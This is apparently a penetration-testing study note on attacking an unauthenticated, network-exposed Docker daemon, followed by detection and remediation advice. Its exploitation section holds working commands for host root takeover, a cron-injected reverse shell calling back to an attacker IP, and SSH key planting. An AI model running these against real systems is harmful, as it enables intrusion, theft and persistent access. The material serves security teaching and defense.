

# 02 - Docker Daemon Exposed

## Introduction

The Docker daemon (`dockerd`) is the core background service that manages Docker containers, images, networks, and storage volumes on a host system. To allow the Docker client (the `docker` CLI) and other tools to communicate with the daemon, Docker provides a robust, fully-featured REST API. By default, this API listens exclusively on a local Unix socket (`/var/run/docker.sock`), ensuring that only local users with sufficient permissions (usually `root` or members of the `docker` group) can interact with it.

However, in many distributed environments, CI/CD pipelines, remote management setups, or debugging scenarios, administrators explicitly configure the Docker daemon to listen on a network TCP port so it can be accessed remotely. If this TCP endpoint is exposed without proper authentication and encryption (such as mutual TLS), it creates one of the most critical vulnerabilities possible in containerized infrastructure. An exposed, unauthenticated Docker daemon provides an attacker with immediate, reliable, and stealthy Remote Command Execution (RCE) with `root` privileges on the underlying host.

## Understanding the Vulnerability

When `dockerd` is configured to listen on a network interface (e.g., by adding `-H tcp://0.0.0.0:2375` to the systemd service file or `daemon.json`), it processes incoming HTTP REST requests exactly as it would process local socket requests.

- **Port 2375:** Traditionally used for unencrypted, unauthenticated Docker HTTP API access. If this is open to the internet or an untrusted network, it is an immediate compromise.
- **Port 2376:** Traditionally used for encrypted (HTTPS) API access, usually requiring mutual TLS (mTLS) client certificates. However, sometimes administrators enable TLS without requiring client certificates, leaving it equally vulnerable.

If Port 2375 is open, anyone can send API requests to create containers, pull images, start/stop services, and map host filesystems. Because containers are just processes running on the host OS kernel, an attacker can simply ask the daemon to create a container that mounts the host's root filesystem (`/`), allowing them to read or write any file on the host OS, thus achieving full system compromise.

### Attack Architecture Diagram



## Exploitation Walkthrough

Exploiting an exposed Docker daemon is remarkably straightforward because the attacker can use the standard, legitimate Docker CLI tool to interact with the remote target. No complex memory corruption, buffer overflows, or bypasses are required—this is pure feature-abuse exploitation.

### Step 1: Discovery and Reconnaissance

The first step is identifying the exposed port. A standard Nmap scan will often reveal Port 2375.

```bash
nmap -p 2375 -sV <target_ip>
```
Output might show:
```
PORT     STATE SERVICE VERSION
2375/tcp open  docker  Docker 20.10.12 (API 1.41)
```

You can verify it is indeed an unauthenticated Docker API by querying the `/info` or `/version` endpoints using raw HTTP requests via `curl`:

```bash
curl -s http://<target_ip>:2375/version | jq
curl -s http://<target_ip>:2375/containers/json | jq
```

If these commands return structured JSON data detailing the server version or a list of running containers, the daemon is fully exposed and vulnerable.

### Step 2: Remote Interrogation

Before escalating privileges, an attacker might want to gather intelligence. You can point your local Docker client to the remote host using the `-H` flag, essentially making your local CLI manage the remote server.

```bash
# List all running containers on the target
docker -H tcp://<target_ip>:2375 ps

# List all local images available on the target
docker -H tcp://<target_ip>:2375 images

# Inspect a running container to find environment variables (which often contain secrets like DB passwords)
docker -H tcp://<target_ip>:2375 inspect <container_id> | grep -i env -A 10
```

### Step 3: Host Takeover (Root RCE)

The primary goal is to achieve root access on the underlying host operating system. The classic technique is to deploy an Alpine Linux container, mount the host's absolute root directory (`/`) into the container, and use `chroot` to break out.

```bash
docker -H tcp://<target_ip>:2375 run -it -v /:/host alpine:latest chroot /host /bin/sh
```

**Breakdown of the command mechanics:**
- `-H tcp://<target_ip>:2375`: Instructs our local Docker client to send API commands to the remote target instead of the local daemon.
- `run -it`: Instructs the daemon to create a new container and attach an interactive TTY.
- `-v /:/host`: This is the crucial vector. It maps the root directory of the physical host (`/`) into the directory `/host` inside the new container.
- `alpine:latest`: The minimal image to use. If the host doesn't have it locally, the daemon will automatically download it from Docker Hub.
- `chroot /host /bin/sh`: Once the container starts, it changes the root directory context to `/host` and executes `/bin/sh`.

Upon executing this command, the attacker is instantly dropped into a root shell on the underlying host OS. They can now add SSH keys, dump shadow files, install rootkits, or pivot further into the internal network.

### Alternative Payload: Cron Job Injection

If interactive access (`-it`) is blocked by a firewall, proxy, or lack of proper terminal emulation, an attacker can launch a detached container (`-d`) to write a reverse shell payload directly into the host's crontab.

```bash
docker -H tcp://<target_ip>:2375 run -d -v /etc:/mnt/etc alpine \
  sh -c "echo '* * * * * root bash -c \"bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1\"' >> /mnt/etc/crontab"
```
Within one minute, the host's cron daemon will execute the reverse shell, calling back to the attacker.

### Alternative Payload: SSH Key Injection

If the host runs SSH (which is almost always true), injecting a public key is a highly persistent and stealthy way to gain access without relying on reverse shells.

```bash
docker -H tcp://<target_ip>:2375 run -d -v /root:/mnt/root alpine \
  sh -c "mkdir -p /mnt/root/.ssh && echo '<attacker_public_key>' >> /mnt/root/.ssh/authorized_keys && chmod 600 /mnt/root/.ssh/authorized_keys"
```
The attacker can then simply run `ssh root@<target_ip>`.

## Advanced Considerations and Scenarios

### SSRF to Docker API

Even if Port 2375 is tightly firewalled and not exposed to the internet, it might be exposed to the internal localhost network (`127.0.0.1:2375`). If a web application running on that same host is vulnerable to Server-Side Request Forgery (SSRF), an attacker can forge HTTP GET/POST requests to the local Docker API.

Through SSRF, an attacker can construct a crafted JSON payload to send a `POST /containers/create` request followed by a `POST /containers/{id}/start` request to achieve the exact same RCE, effectively turning a simple web vulnerability into a full host takeover.

### The Docker API in CI/CD Environments

Many misconfigurations occur in CI/CD platforms like Jenkins, GitLab CI, or GitHub Actions. Often, the Docker daemon TCP port is exposed internally to allow ephemeral worker nodes to build images dynamically. Attackers compromising a single unprivileged CI worker can scan the local subnet, find the exposed daemon on the CI manager node, and completely compromise the orchestration infrastructure.

## Detection and Remediation

### Detection Mechanisms
- **Network Monitoring:** Alert on any incoming traffic to TCP port 2375 from unexpected IP addresses. 
- **Log Analysis:** Monitor Docker daemon logs (often in `journalctl -u docker`) for unusual container creations, specifically those using extensive volume mounts (`-v /:/host`) or running `--privileged`.
- **SIEM Rules:** Flag API REST requests to `/containers/create` that include `Binds` arrays pointing to highly sensitive host directories (`/`, `/etc`, `/root`, `/var/run`).

### Remediation Strategies

1. **Never Expose Unauthenticated API:** If remote API access is absolutely required for business logic, configure Docker to require TLS authentication (mTLS). This forces clients to present a valid client certificate signed by a trusted CA before the daemon will even accept the TCP connection.
2. **Use SSH instead of TCP:** Modern Docker clients natively support connecting to a remote daemon over SSH. This leverages the existing, hardened SSH security infrastructure (keys, fail2ban, logging) without needing to configure complex mTLS or open additional firewall ports.
   ```bash
   export DOCKER_HOST="ssh://user@<target_ip>"
   docker ps
   ```
3. **Firewall Rules:** If unencrypted TCP must be used for legacy reasons, strictly restrict access to port 2375 using `iptables`, UFW, or cloud security groups (AWS Security Groups) so that only explicitly trusted internal IP addresses can connect.

## Chaining Opportunities
- **SSRF -> Host Takeover:** Leveraging a Server-Side Request Forgery vulnerability in a web application to send crafted REST payloads to an internally exposed Docker API on localhost.
- **Exposed Daemon -> Lateral Movement:** Using the compromised Docker host as a highly privileged pivot point to attack other internal microservices, databases, or the orchestration control plane (e.g., Kubernetes API server).

## Related Notes
- [[01 - Docker Overview — Images, Containers, Registries]]
- [[03 - Docker Socket Mount Privilege Escalation]]
- [[05 - Container Escape — Mounted Host Filesystem]]
